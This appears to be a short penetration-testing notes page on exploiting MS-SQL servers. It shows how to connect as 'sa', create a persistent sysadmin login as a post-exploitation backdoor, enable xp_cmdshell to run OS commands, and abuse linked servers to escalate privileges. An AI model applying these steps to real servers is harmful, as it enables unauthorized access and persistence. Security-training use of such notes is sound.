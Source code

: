 # MS-SQL Databases

MS-SQL or SQL Server is Microsoft's offering of an SQL Database.  The syntax and model is quite similar to standard SQL with the benefit of being able to hook directly into offerings such as Windows Active Directory and interface with the Windows operating system.  It is some of these features however that can allow us to get a strong foothold on a device.

## Connecting
There are multiple ways to interface with an MS-SQL server.

If on Linux then I'd recommend using sqsh

```bash
sqsh -S 192.168.0.6 -U sa
```

## User Creation

For creating a sysadmin user to enable easy access to the database post-exploitation, we'll need to create a login and associated user for SQL authentication.  We can then assign this user sysadmin privileges.

```sql
CREATE LOGIN booj WITH PASSWORD = 'B00j123!'
CREATE USER booj for LOGIN booj
EXEC sp_addsrvrolemember @loginame = N'booj', @rolename = N'sysadmin'
```

## xp\_cmdshell

```sql
1> exec sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0)
1> reconfigure
2> go
1> exec sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links

T
he best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/) They're not hard to pull off and can allow you to escalate your permissions quite easily. However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.



